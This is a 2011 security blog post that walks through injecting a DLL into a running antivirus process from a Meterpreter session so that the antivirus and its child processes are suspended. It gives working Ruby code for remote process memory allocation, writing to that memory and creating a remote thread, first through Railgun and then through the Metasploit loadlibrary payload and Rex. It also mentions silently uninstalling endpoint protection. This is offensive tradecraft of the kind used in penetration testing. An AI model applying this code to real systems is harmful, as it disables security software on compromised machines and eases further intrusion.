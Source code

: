 ---
author: mubix
comments: true
date: 2011-05-30 16:35:40+00:00
layout: post
title: Remote DLL Injection with Meterpreter
categories:
- dllinjection
- metasploit
- meterpreter
- railgun
---

Recently Didier Stevens wrote 'Suspender.dll' which is a DLL that will suspend a process and all of it's child processes after a delay. 60 seconds is it's default but you can rename the DLL to add a number (as such 'Suspender10.dll' for 10 seconds) to make the delay whatever you wish. You can find the blog post and download here: [http://blog.didierstevens.com/2011/04/27/suspender-dll/](http://blog.didierstevens.com/2011/04/27/suspender-dll/)

Jonathan Cran and I had the same idea, as I'm sure many others did as well. This might work against AntiVirus setups that protect themselves from being killed or their services stopped.

I still stand by my original claim that just removing it is easier ([Blog Post: Silently Uninstall SEP](/blog/2010/11/16/silently-uninstall-sep)). However that might be something the user notices (A little shield disappearing).

Well, I didn't know how to do this with meterpreter so a bit of google fu landed me on: [http://www.codeproject.com/KB/threads/winspy.aspx](http://www.codeproject.com/KB/threads/winspy.aspx) which has 3 different ways to attack the 2nd of which used a DLL (score!)

Using IRB within a meterpreter shell I started using Railgun (because once you know something sometimes its easy not too look for other solutions)

I start off setting up some variables after I've uploaded Suspender.dll:

```ruby
pid = 1436
sizeofsuspend = 52376
pathtosuspend = "C:\Docume~1\Administrator\Desktop\Suspender10.dll"
```

Next up we need to open a handle on the target process:

```ruby
handle = client.railgun.kernel32.OpenProcess(PROCESS_ALL_ACCESS,false,pid)["return"]
```

With the handle we allocate some memory in the remote process for our DLL to live in:

```ruby
allocatedmem = client.railgun.kernel32.VirtualAllocEx(handle,nil,sizeofsuspend,MEM_COMMIT,PAGE_READWRITE)["return"]
```

Writing that DLL to memory isn't much harder: (_**this and the previous step is the wrong way to do things as we'll see later**_)

```ruby
client.railgun.kernel32.WriteProcessMemory(handle,allocatedmem,pathtosuspend,sizeofsuspend,nil)
```

Here is the hard part. We have to somehow figure out the address LoadLibraryA in the remote processes memory space, accounting for ASLR then pass it the location in memory where our DLL is hiding. Yah, I couldn't figure this one out, here is the best I did:

```ruby
client.railgun.kernel32.CreateRemoteThread(handle,nil,0,allocatedmem,pathtosuspend,0,nil)
```

Then I got a friendly reminder by HD that most of this was built into meterpreter already so all that railgun nastness boils down to someting a lot simpler. Set the variables again:

```ruby
pid = 1436
pathtosuspend = "C:\Docume~1\Administrator\Desktop\Suspender10.dll"
```

But this time we are going to use the loadlibrary payload that just got added to Metasploit Framework in [r12765](https://dev.metasploit.com/redmine/projects/framework/repository/revisions/12765). We generate the payload with it pointing at our Suspender DLL:

```ruby     
pay = client.framework.payloads.create("windows/loadlibrary")
pay.datastore['DLL'] = pathtosuspend
pay.datastore['EXITFUNC'] = 'thread'
raw = pay.generate
```

Open the process, this time with Rex:

```ruby
targetprocess = client.sys.process.open(pid, PROCESS_ALL_ACCESS)
```

Allocate the memory in the remote process write the payload (not our DLL) into that space:

```ruby
mem = targetprocess.memory.allocate(raw.length + (raw.length % 1024))
targetprocess.memory.write(mem, raw)
```

And finally create the remote thread.. MUCH easier (The power of Rex even over Railgun)

```ruby
targetprocess.thread.create(mem, 0)
```

And 10 seconds later our AV and all it's children processes stop. Suspended by Didier's Suspender.DLL. Thanks to HD for the slap in the head that I was doing things the wrong way and the 1 AM update to the framework that made this possible.
